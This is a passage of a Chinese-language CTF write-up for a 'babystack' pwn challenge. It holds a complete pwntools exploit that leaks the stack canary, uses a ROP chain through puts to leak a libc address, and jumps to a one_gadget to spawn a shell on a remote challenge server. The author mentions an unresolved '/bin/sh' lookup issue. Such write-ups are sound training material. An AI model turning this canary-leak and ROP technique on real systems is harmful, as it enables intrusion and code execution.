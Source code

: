 ![](截图\14.4.png)

4. ROPgadget求rdi地址，one_gadget求libc中后门地址，就是直接执行 execve('/bin/sh', NULL, NULL)，四个选一个就行，想用bin_sh_in_libc = next(libc.search('/bin/sh'))  但得到的地址是错的，遗留问题

**exp**

利用puts函数泄露Canary地址，再泄露puts真正地址，求得libc基地址

```python
# coding=utf-8
from pwn import *
p = remote('111.198.29.45','46377')
elf = ELF('/root/桌面/babystack')
libc = ELF('/root/桌面/libc-2.23.so')

pop_rdi = 0x0400a93
got_puts = elf.got['puts']
plt_puts = elf.plt['puts']
main_addr = 0x0400908
bin_sh_in_libc = 0x45216

#求Canary地址
p.sendlineafter(">> ",'1')
payload = 'a'*0x88
p.sendline(payload)
p.sendlineafter(">> ",'2')
p.recvuntil('a'*0x88+'\n')
Canary_addr = u64(p.recv(7).rjust(8,'\x00'))

#求puts真正地址
p.sendlineafter(">> ",'1')
payload2 ='a'*0x88+p64(Canary_addr)+'a'*8+p64(pop_rdi)+p64(got_puts)+p64(plt_puts)+p64(main_addr)
p.sendline(payload2)
p.recv()
p.sendlineafter('>> ','3')
puts_addr = u64(p.recv(8).ljust(8,'\x00'))

#求libc基地址，/bin/sh地址
libcbase = puts_addr - libc.symbols['puts']
bin_sh_addr = bin_sh_in_libc + libcbase
p.sendlineafter(">> ",'1')
payload3 = 'a'*0x88+p64(Canary_addr)+'a'*8+p64(bin_sh_addr)
p.sendline(payload3)
p.sendlineafter(">> ",'3')
#p.sendline("ls")
#p.sendline("cat flag")
p.interactive()
```
